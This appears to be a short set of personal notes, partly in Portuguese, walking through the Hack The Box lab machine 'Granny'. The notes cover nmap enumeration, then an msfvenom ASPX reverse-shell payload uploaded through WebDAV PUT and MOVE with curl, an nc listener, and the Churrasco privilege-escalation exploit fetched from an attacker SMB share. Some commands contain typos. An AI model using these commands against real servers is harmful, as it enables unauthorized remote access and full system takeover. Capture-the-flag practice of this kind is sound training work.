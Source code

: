 Granny
=============

## Enumeration

    sudo nmap_enum granny.htb | tee nmap_output.txt
 
![qownnotes-media-wKVQja](../../../media/qownnotes-media-wKVQja.png)


PUT metlhod allowed

## Exploitation

    msfvenom -p windows/shellreverse_tcp -f aspx LHOST=10.10.14.4 LPORT=8080 > test.txt
    
    curl http://10.10.10.15 --upload-file test.txt -v
    
    curl -X MOVE -H "Destination:http://10.10.10.15/test.aspx" http://10.10.10.15/test.txt
    
    firefox http://10.10.10.15/test.aspx

    nc -nlvp 8080

![qownnotes-media-GoZNoO](../../../media/qownnotes-media-GoZNoO.png)

## PrivilegeEscalation

https://github.com/bitsadmin/wesng

    pip install wesng
    
    sudo ln -s /home/acosta/.local/bin/wes /usr/bin/wes
    
    wes --update
    
    wes si.txt

Pra facilitar eu já olhei na resposta logo e achei o sesguinte exploit. Nesse caso se trata de um exploit de kernel:

https://github.com/Re4son/Churrasco/blob/master/churrasco.exe

    impacket-smbserver smb .
    
    copy \\10.10.14.4\smb\churrasco.exe churrasco.exe

    churrasco.exe -d cmd
    
    cd C:\Documents and Settings\Administrator\Desktop
    type root.txt

![qownnotes-media-rAecxo](../../../media/qownnotes-media-rAecxo.png)

![qownnotes-media-dlSMVT](../../../media/qownnotes-media-dlSMVT.png)

![qownnotes-media-LqYcGT](../../../media/qownnotes-media-LqYcGT.png)
